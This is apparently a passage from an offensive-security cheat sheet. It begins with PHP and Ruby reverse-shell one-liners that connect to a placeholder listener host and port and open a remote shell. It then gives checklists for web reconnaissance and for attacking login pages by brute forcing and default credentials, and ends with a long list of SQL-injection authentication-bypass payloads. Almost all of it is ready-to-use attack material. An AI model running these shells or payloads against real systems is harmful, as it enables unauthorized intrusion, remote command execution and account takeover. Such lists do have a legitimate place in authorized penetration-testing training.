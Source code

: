 ```php
php -r '$sock=fsockopen("[lhost]",[lport]);exec("/bin/sh -i <&3 >&3 2>&3");'
```
```ruby
ruby -rsocket -e'f=TCPSocket.open("[lhost]",[lport]).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```
### When Scanning a Webpage
- [ ] look at each pages source code for any lucrative information (passwords, usernames, service versions, programming language in use, etc)
- [ ] run directory brute force tools on root directory
    - [ ] if other directories are discovered, run directory brute force tools on these directories as well
- [ ] try checking multiple types of extensions (txt, php, aspx, etc) while directory brute forcing
- [ ] use wordlists that are specific to the server application (apache, IIS, Tomcat, etc)
### When confronted by a Login Page
- [ ] attempt sql injection
- [ ] if server application is known, try looking for default passwords for this service
- [ ] attempt to brute forcing admin account
    - [ ] if usernames are obtained, try brute forcing these accounts
- [ ] trying signing up to be an authenticated user, which comes with more privileges (some exploits require authentication)
### SQL Injection: Authentication Bypass
```
or 1=1
or 1=1--
or 1=1#
or 1=1/*

# SINGLE QUOTES
admin' --
admin' #
admin'/*
admin' or '1'='1
admin' or '1'='1'--
admin' or '1'='1'#
admin' or '1'='1'/*
admin'or 1=1 or ''='
admin' or 1=1
admin' or 1=1--
admin' or 1=1#
admin' or 1=1/*
admin') or ('1'='1
admin') or ('1'='1'--
admin') or ('1'='1'#
admin') or ('1'='1'/*
admin') or '1'='1
admin') or '1'='1'--
admin') or '1'='1'#
admin') or '1'='1'/*

# DOUBLE QUOTES
admin" --
admin" #
admin"/*
admin" or "1"="1
admin" or "1"="1"--
admin" or "1"="1"#
admin" or "1"="1"/*
admin"or 1=1 or ""="
admin" or 1=1
admin" or 1=1--
```